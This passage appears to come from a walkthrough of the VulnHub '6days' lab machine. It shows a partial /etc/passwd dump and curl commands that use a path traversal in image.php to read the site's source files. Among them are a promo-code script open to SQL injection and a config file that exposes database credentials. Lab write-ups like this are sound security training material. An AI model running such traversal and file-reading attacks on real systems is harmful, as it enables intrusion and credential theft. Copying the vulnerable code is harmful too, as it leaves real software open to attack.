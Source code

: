 ```
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
andrea:x:1001:1001::/home/andrea:/bin/andrea
```
The account andrea at the end is of interest so we'll keep that in mind.

## Searching for other files
The next thing was to see if we could get the other files that were referenced on the site to see what was in them.

checkpromo.php
```
root@sengen-kali:~/vulnhub/6days# curl http://192.168.56.104/image.php?src=../../../../../var/www/checkpromo.php
<?php
include 'config.php';

$conn = mysql_connect($servername, $username, $password);

if (!$conn) {
	die("Connection failed: " . $conn->connect_error);
}

$sql = "SELECT discount, status FROM promocodes WHERE promocode='".$_GET['promocode']."';";

mysql_select_db($dbname);
$result = mysql_query($sql, $conn);

if (!$result) {
	echo "Promocode not valid!";
} else {
	while($row = mysql_fetch_array($result, MYSQL_ASSOC))
	{
		if($row['status'] == 0)
			echo "Code expired!";
		else
			echo "You have %".$row['discount']." discount!";
	}
}

mysql_close($conn);
?>
```
config.php
```
root@sengen-kali:~/vulnhub/6days# curl http://192.168.56.104/image.php?src=../../../../../var/www/config.php
<?php
$servername = "localhost";
$username = "sellingstuff";
$password = "n0_\$\$_n0_g41ns";
$dbname = "fancydb";
```
image.php
```
root@sengen-kali:~/vulnhub/6days# curl http://192.168.56.104/image.php?src=../../../../../var/www/image.php
<?php
$img = $_GET['src'];
header('Content-Type: image/jpeg');
readfile($img);
```